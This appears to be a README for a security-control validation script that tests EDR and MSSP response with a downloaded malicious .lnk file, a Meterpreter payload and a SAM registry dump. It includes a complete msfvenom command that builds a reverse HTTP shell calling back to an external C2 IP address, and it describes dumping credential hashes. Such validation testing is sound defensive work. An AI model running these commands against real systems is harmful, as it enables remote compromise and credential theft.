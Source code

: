 # ResponseValidation
```
                                                                                               @@@
                                                                                             @@@ @ @@@@
                                                                                           @@@ @ @@@ @
                                                                                        @@@@ @@@@ @  @@@
                                                                                     /@@@ @@@@  @@@@@ @
                                                                                  #@@. @@@@ @@@@@ &@
                                                                               @@@@@@@@  @@@   @@@@@@&
                                                                            @@@@@@@@@@@@  @@@@@@ @@
                                                                         @@@@@@@@@@@@@@@@   @@@@@@
                                                                      @@@@@@@@@@@@@ %@@@@@   @@
                                                  @@               @@@@    @@@@@@@@   @@@@@@@.@
                                             @@@@ @@@@          @@@@       @@@@@@@@      @@
                                          @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @
                                       @@@@            @@@   @@@       @@@@@@@@@@@@@@ @
                                       @@               @@@ @@@       @@@@@@@  @@@@
                                        @@              @@@@@@      @@@@@@@@@@  @@
                                         @@              @@@@      @@@@@@@@@@@@
                                          @(          /@@@        @@@@@    @
                                          @@       @@@@          @@@@@@@@ @
                                          @ @@@@@@@#             /@@@@@@@
                                        @@@@@@@                    @@@@ @
                                      @  @@@@@                       @@@@
                                    @  @@@@             @@/            @@@@@@
                                   @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@
                                    @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@
                                     @           @@@@@ @@                  &@@& @@  @@@@@@
                                                @@@@@@@*
                                               @@@ @@
                                            @@   @
    TRIFIDENT                           @@ @@@@@
Security Validation Tests v0.1              @
```
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter
>  
> Generated by Trifident, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


